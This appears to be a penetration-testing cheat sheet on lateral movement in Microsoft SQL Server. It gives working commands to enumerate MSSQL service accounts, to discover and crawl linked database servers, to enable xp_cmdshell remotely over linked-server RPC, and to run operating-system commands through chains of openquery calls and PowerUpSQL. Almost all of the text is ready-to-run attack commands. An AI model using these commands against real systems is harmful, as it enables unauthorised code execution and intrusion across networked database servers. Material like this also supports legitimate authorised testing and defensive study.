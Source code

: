 ```
# enumerate 
> setspn -T prod -Q MSSQLSvc/*
```

Search for linked databases:
```
select * from master..sysservers
```

```
Get-SQLServerLink -Instance instance -Verbose
```

Run queries on linked databases:
```
select * from openquery("instance",'select * frommaster..sysservers')
```

Run queries on chain of linked databases:
```
select * from openquery("inatance1",'select * from openquery("instance2",''select * from master..sysservers'')')
```

```
Get-SQLServerLinkCrawl -Instance instance1 -Verbose
```

If `rpcout` is enabled for all links (disabled by default), `xp_cmdshell` can be enabled using:

```
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "instance2")
```

Command execution with linked databases:

```
select * from openquery("instance1",'select * from
openquery("instance2",''select * from openquery("instance3",''''select @@version as version;exec master..xp_cmdshell "cmd /c calc.exe"'''')'')')
```

```
Get-SQLServerLinkCrawl -Instance instance1 -Query "exec master..xp_cmdshell 'cmd /c calc.exe'"-Verbose
```

[source](https://github.com/SofianeHamlaoui/Pentest-Notes/blob/master/Security_cheatsheets/databases/sqlserver/5-lateral-movement.md#database-links)



#### Client

Using Heidi

```
# test
SELECT @@version

# check
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell'

# enable
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE

# exec
EXEC xp_cmdshell 'whoami'

```
